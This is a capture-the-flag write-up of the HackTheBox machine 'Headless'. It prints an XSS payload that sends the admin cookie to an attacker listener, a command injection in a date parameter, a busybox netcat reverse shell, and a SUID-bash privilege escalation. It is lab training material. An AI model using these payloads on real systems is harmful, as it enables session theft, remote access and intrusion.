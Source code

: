 ```yaml
---
layout: writeup
category: HackTheBox
chall_description: 
points: 
solves: 
tags: HTB, easy
date: 2024-07-10
comments: false
---
```


  
## Description 

This was fairly easy one. Had to perform XSS to leak admin cookie and perform command injection to get initial user access. Privilege escalation was a cake walk comparatively, one shell script was executable as root whitout password which was executing another shell script which was editable by the user.    
 

## Enumeration

Nmap scan revealed 2 open ports 22, and 5000.
```sh
└─$ cat nmap.initial.nmap 
# Nmap 7.94SVN scan initiated Thu May 30 15:51:14 2024 as: nmap -sC -sV -oA nmap.initial 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Thu, 30 May 2024 19:51:40 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```


Directory brueforcing using Gobuster revealed two paths `/support` and `/dashboard`.
```sh
└─$ gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]

```


`/dashboard` is only accessible by admin. Using `/support` we can send feedback message.
![Branching](/assets/CTFs/HackTheBox/headless1.png)

Initially I wasted quite some time on trying send RTSP requests as nmap mentions the protocol at the bottom and as the sites index page had countdown I used it has something to do with streaming. Well it was a big wste of time.  

After wasting hours I though about going back to the web page and started working on the `/support` page.    


## Exploitation

Starting with `/support` page, sending `<script>` as message in input field results in `Hacking Attempt Detected` error.
![Branching](/assets/CTFs/HackTheBox/headless2.png)  

However, sending the payload in other parameters and headers doesn't give that error. I sent the payload in all other parameters and headers and observer what happens. I send the basic payload used to leak cookies using XSS.  
```js
script>var i=new Image(); i.src="http://10.10.14.187:9000/?cookie="+(document.cookie);</script>
```  

![Branching](/assets/CTFs/HackTheBox/headless3.png)  


I ran a Python server to recieve the cookies value. After a few tries and waiting we get the cookie value.
```sh
└─$ python3 -m http.server 9000            
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.11.8 - - [10/Jul/2024 17:57:56] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
10.10.11.8 - - [10/Jul/2024 17:57:58] "GET /?cookie=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -                                                    
       
```

Using the cookie we can access the `/dashboard`. 
![Branching](/assets/CTFs/HackTheBox/headless4.png)  
 

It sends the date to `/api/cache` on generate report.
![Branching](/assets/CTFs/HackTheBox/headless5.png)  

I tried SQLi attacks but it did not work as intented, after few tries I used a basic command injection `2023-09-14; ls ;` and we get RCE.
![Branching](/assets/CTFs/HackTheBox/headless6.png)  

For reverse shell I used the `busybox nc 10.10.14.187 4040 -e sh`, which is a lot easy to deal with and works everytime compared to the classic `bash -i`.
![Branching](/assets/CTFs/HackTheBox/headless7.png)  

And we get the user flag.    


## Privilege Escalation

Running `sudo -l` shows a shell script that can be used as root without password.
![Branching](/assets/CTFs/HackTheBox/headless8.png)


`syscheck` executes `initdb.sh` which is writeable by our user.
```sh
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```   

From here on you can get a reverse shell again. I copied bash as temp file like and added suid bit to the temp file.

```sh
cp /bin/bash ./temp
chmod +s ./temp
```  

![Branching](/assets/CTFs/HackTheBox/headless9.png)   


